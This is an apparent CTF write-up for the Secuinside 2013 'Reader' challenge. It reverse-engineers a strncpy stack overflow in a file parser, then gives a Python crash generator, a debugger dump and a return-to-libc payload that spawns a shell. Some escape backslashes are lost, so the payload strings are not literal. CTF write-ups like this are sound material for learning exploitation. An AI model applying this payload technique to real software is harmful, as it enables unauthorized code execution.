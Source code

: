 ```yaml
---
title: '[Secuinside CTF 2013] Reader Writeup'
author: suto
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358960
kopa_newsmixlight_total_view:
  - 1
category: ctf - clgt crew
tags:
  - CLGT
  - CTF
  - return-to-libc
---
```

*Description:*

> http://war.secuinside.com/files/reader
> 
> ip : 59.9.131.155  
> port : 8282 (SSH)  
> account : guest / guest
> 
> We have obtained a program designed for giving orders to criminals.
> 
> Our investigators haven&#8217;t yet analyzed the file format this program reads.
> 
> Please help us analyze the file format this program uses, find a vulnerability, and take a shell.

From the description we can know this challenge requires an input file with correct format. Since it is simple to determine that format, I won&#8217;t talk deeper, you can find the details in sub_0804891A.  
So I will show the vulnerability in this &#8220;Reader&#8221;.

Below is the main routine of this challenge:

<pre class="brush: cpp; title: ; notranslate" title="">int __cdecl sub_80490B8(signed int a1, int a2)
{
  int v2; // ecx@7
  int result; // eax@7
  int file; // [sp+20h] [bp-90h]@4
  char buffer[140]; // [sp+24h] [bp-8Ch]@1

  *(_DWORD *)&buffer[136] = *MK_FP(__GS__, 20);
  if ( a1 &lt;= 1 )
  {
    printf("Usage: %s &lt;FILENAME&gt;n", *(_DWORD *)a2);
    exit(1);
  }
  sub_8048825(*(const char **)(a2 + 4));
  file = open(*(const char **)(a2 + 4), 0);
  if ( file &lt; 0 )
  {
    perror(&byte_8049322);
    exit(1);
  }
  pre_path(file, (_DWORD *)buffer);
  vuln_path((_DWORD *)buffer);
  free_path((_DWORD *)buffer);
  close(file);
  result = 0;
  if ( *MK_FP(__GS__, 20) != *(_DWORD *)&buffer[136] )
    __stack_chk_fail(v2, *MK_FP(__GS__, 20) ^ *(_DWORD *)&buffer[136]);
  return result;
}
</pre>

As you can see, variable buffer is used in multiple locations. After some minutes review I saw an interesting point in sub_08048C7A:

<pre class="brush: cpp; title: ; notranslate" title="">int __cdecl vuln_path_(_DWORD *BUFF)
{
  size_t ulen; // eax@4
  int v2; // edx@4
  int v3; // ecx@4
  int result; // eax@4
  unsigned int i; // [sp+28h] [bp-20h]@1
  int v6; // [sp+3Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  for ( i = 0; BUFF[2] &gt; i; ++i )
  {
    putchar(*(_BYTE *)(BUFF[7] + i));
    fflush(stdout);
    usleep(BUFF[3]);
  }
  ulen = strlen((const char *)BUFF + 83);       // re-cal length (1)
  strncpy(BUFF[6], gPTR, ulen);                 // overflow occurs
  puts("n");
  result = *MK_FP(__GS__, 20) ^ v6;
  if ( *MK_FP(__GS__, 20) != v6 )
    __stack_chk_fail(v3, v2);
  return result;
}
</pre>

The *strncpy()* function copies **ulen** bytes from **gPTR** to **BUFF[6]** without any limit check. So I back to main routine to see where **BUFF[6]** is initialized, and it is located in sub_08048D41:

<pre class="brush: cpp; title: ; notranslate" title="">unsigned int index; // [sp+18h] [bp-20h]@1
  int s[7]; // [sp+1Ch] [bp-1Ch]@1

  bzero(s, 0x14u);
  putchar(10);
  for ( index = 0; *BUFF &gt; index; ++index )
  {
    putchar(*(_BYTE *)(BUFF[5] + index));
    fflush(stdout);
    usleep(BUFF[3]);
  }
  printf("nn ");
  for ( index = 0; BUFF[1] + 4 &gt; index; ++index )
  {
    putchar(*((_BYTE *)BUFF + 16));
    fflush(stdout);
    usleep(BUFF[3]);
  }
 .....
 .....
  BUFF[6] = &index;
 .....
 .....
</pre>

So **BUFF[6]** is set to address of local variable of this function, we can clearly see this function is not protected by stack cookie. So it is just a simple buffer overflow issue. We can craft a valid file format and see where it gets the input to calculate **ulen** in (1). Back to sub_0804891A we can see:

<pre class="brush: cpp; title: ; notranslate" title="">*BUFF = *(_DWORD *)&buf;
  read(fd, &buf, 4u);
  BUFF[1] = *(_DWORD *)&buf;                    // read 4 bytes from file
  read(fd, &buf, 4u);
  BUFF[2] = *(_DWORD *)&buf;
  read(fd, &buf, 4u);
  BUFF[3] = *(_DWORD *)&buf;
  read(fd, &buf, 1u);
  *((_BYTE *)BUFF + 16) = buf;
  if ( *BUFF &lt;= 4u || *BUFF &gt; 0x32u || BUFF[1] &gt; 0x64u || BUFF[2] &gt; 0x320u || !*((_BYTE *)BUFF + 16) )// 0x4-0x32 0x64 0x32
    ((void (__cdecl *)(_DWORD))ERR)("Initialization error");
  Copy(&buf, (char *)BUFF + 32);
  BUFF[5] = malloc(*BUFF);
  if ( !BUFF[5] )
    ((void (__cdecl *)(_DWORD))ERR)("malloc() function error");
  BUFF[6] = malloc(BUFF[1]);                    // use 4 bytes read above to malloc -&gt; BUFF[6] will has this length
  gPTR = (void *)BUFF[6]; -&gt; Set gPTR to BUFF[6]
  if ( !BUFF[6] )
    ((void (__cdecl *)(_DWORD))ERR)("malloc() function error");
  BUFF[7] = malloc(BUFF[2]);
  if ( !BUFF[7] )
    ((void (__cdecl *)(_DWORD))ERR)("malloc() function error");
  bzero((void *)BUFF[5], *BUFF);
  bzero((void *)BUFF[6], BUFF[1]);
  bzero((void *)BUFF[7], BUFF[2]);
  read(fd, (void *)BUFF[5], *BUFF);
  read(fd, (void *)BUFF[6], BUFF[1]);
  read(fd, (void *)BUFF[7], BUFF[2]);
</pre>

Since it checks **BUFF[1]** with 0&#215;64, I blindly set it to 0&#215;63 to maximize the len of **gPTR** string and got a nice crash, so no need to do further investigation. Below is python code to generate valid *&#8220;test.sec&#8221;* file and trigger the crash:

<pre class="brush: python; title: ; notranslate" title="">data = "xff" + "SECUINSIDE" + "x00" + "Ax00"+"A"*26 +"CCCC" + "B"*(100-4-28) +"xff"*4
       + "x08x00x00x00"
       + "x63x00x00x00" # will become BUFF[1] and length of BUFF[6]
       + "x32x00x00x00"
       + "x00x00x00x00"
       + "X"*200
file = open("test.sec","w")
file.write(data)
file.close()
</pre>

Run reader with *test.sec* and we got a crash looks like:

<pre class="brush: plain; title: ; notranslate" title="">- THE END -
document identifier code: 14821847921482184792148218479214821847921482184792

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x2
EBX: 0xb7fcfff4 --&gt; 0x1a0d7c
ECX: 0xffffffff
EDX: 0xb7fd18b8 --&gt; 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x58585858 ('XXXX')
ESP: 0xbffff640 ("XXXXXXXXXX")
EIP: 0x58585858 ('XXXX')
EFLAGS: 0x210286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x58585858
[------------------------------------stack-------------------------------------]
0000| 0xbffff640 ("XXXXXXXXXX")
0004| 0xbffff644 ("XXXXXX")
0008| 0xbffff648 --&gt; 0x5858 ('XX')
0012| 0xbffff64c --&gt; 0xb7fff918 --&gt; 0x0
0016| 0xbffff650 --&gt; 0x0
0020| 0xbffff654 --&gt; 0x0
0024| 0xbffff658 --&gt; 0x0
0028| 0xbffff65c --&gt; 0xbffff794 --&gt; 0xbffff8b6 ("/home/suto/reader")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x58585858 in ?? ()
</pre>

As this is a local exploit, *&#8220;ulimit -s unlimited&#8221;* trick will help to de-randomize libc and a simple system(&#8220;sh&#8221;) will work. Payload:

<pre class="brush: plain; title: ; notranslate" title="">system = 0x4006b280
sh = 0x8048366
payload = "xff" + "SECUINSIDE" + "x00" + "Ax00"+"A"*26 +"CCCC" + "B"*(100-4-28) +"xff"*4
         + "x08x00x00x00"
         + "x08x00x00x00"
         + "x32x00x00x00"
         + "x00x00x00x00"
         + "A"*37 # padding
         + struct.pack("&lt;L", system) + struct.pack("&lt;L", -1) + struct.pack("&lt;L", sh)
fd = open("test.sec","w")
fd.write(payload)
fd.close()
</pre>